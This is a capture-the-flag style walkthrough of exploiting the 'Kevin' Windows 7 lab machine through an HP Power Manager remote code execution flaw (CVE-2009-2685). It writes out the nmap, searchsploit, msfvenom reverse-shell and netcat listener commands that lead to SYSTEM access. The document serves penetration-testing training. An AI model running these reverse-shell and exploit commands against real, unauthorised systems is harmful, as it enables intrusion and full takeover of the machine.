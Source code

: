 # Kevin - Windows 7 Exploitation Walkthrough

This is a full exploitation walkthrough for the **Kevin** lab machine running Windows 7 Ultimate. The objective was to gain full SYSTEM-level access by exploiting a vulnerable web application and capturing the administrator flag.

---

## Target Information

**IP Address:** 192.168.232.45  
**Operating System:** Windows 7 Ultimate N  
**Hostname:** KEVIN  
**Workgroup:** WORKGROUP  
**Exposed Application:** HP Power Manager (GoAhead WebServer)

---

## Enumeration

Performed an initial Nmap scan:

```bash
nmap -T4 -A 192.168.232.45 -oN nmap
Identified ports:

80 (HTTP - HP Power Manager)

135 (RPC)

139, 445 (SMB)

3389 (RDP)

49152–49159 (MSRPC dynamic ports)

Navigated to: http://192.168.232.45
Observed HP Power Manager login page.

Default credentials used:

pgsql
Copy
Edit
Username: admin
Password: admin
Exploitation - HP Power Manager RCE
Searched for known exploits using Searchsploit:

bash
Copy
Edit
searchsploit HP Power Manager
searchsploit -m 10099.py
Confirmed vulnerability: CVE-2009-2685 — Remote Code Execution.

Reverse Shell Payload
Generated a custom reverse shell using msfvenom:

bash
Copy
Edit
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.158 LPORT=80 \
-b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" \
-e x86/alpha_mixed -f c
Payload was inserted into the SHELL variable in 10099.py.

Exploit Execution & Shell Access
Started listener:

bash
Copy
Edit
rlwrap nc -nlvp 80
Executed exploit:

bash
Copy
Edit
python2.7 10099.py 192.168.232.45
Gained shell access as:

sql
Copy
Edit
NT AUTHORITY\SYSTEM
Captured Flag
Located in:

makefile
Copy
Edit
C:\Users\Administrator\Desktop\proof.txt
Flag:

nginx
Copy
Edit
f9267403b0baf51ae5c66c6d55fd72de
Tools Used
nmap

searchsploit

msfvenom

python2.7

netcat (nc)

rlwrap

Summary
Performed recon and discovered exposed web service

Identified and exploited RCE vulnerability (CVE-2009-2685)

Gained SYSTEM-level access via reverse shell

Retrieved administrator flag

Author
Farhanahmad Quraishi

